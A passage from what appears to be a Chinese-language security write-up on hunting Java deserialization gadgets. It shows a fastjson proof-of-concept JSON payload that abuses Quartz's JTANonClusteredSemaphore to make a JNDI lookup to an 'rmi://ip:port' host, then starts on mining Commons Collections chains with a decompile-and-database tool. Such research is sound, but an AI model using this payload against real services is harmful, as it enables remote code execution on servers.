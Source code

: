 在这里这个方法是protected，所以没有直接找到，但是在原题中，这里被改成了public

来看看这里的代码，调用的是InitialContext的lookup方法，里面的参数看看可控吗

```
   public void setTransactionManagerJNDIName(String transactionManagerJNDIName) {
        this.transactionManagerJNDIName = transactionManagerJNDIName;
    }
```

有一个setter方法，所以poc如下

```
[{"@type":"org.quartz.impl.jdbcjobstore.JTANonClusteredSemaphore","TransactionManagerJNDIName":"rmi://ip:port/h"},{"$ref":"$[0].Transaction"}]
// $ref是在fastjson>=1.2.36之后可以调用任意的getter方法
```

## CC链

除了对fastjson这种的挖掘，还可以对CC链进行挖掘

### 单个jar创建database

利用工具：https://github.com/waderwu/extractor-java

```
首先解压commons-collections-3.2.1.jar

# 反编译，要具体到源码的目录下
python3 class2java.py commons-collections-3.2.1/org

# 生成数据库，第二个参数srcroot可以指定多几层的上级目录都没关系
python3 run.py cc-test commons-collections-3.2.1

```

![image-20230128115317267](images/27.png)
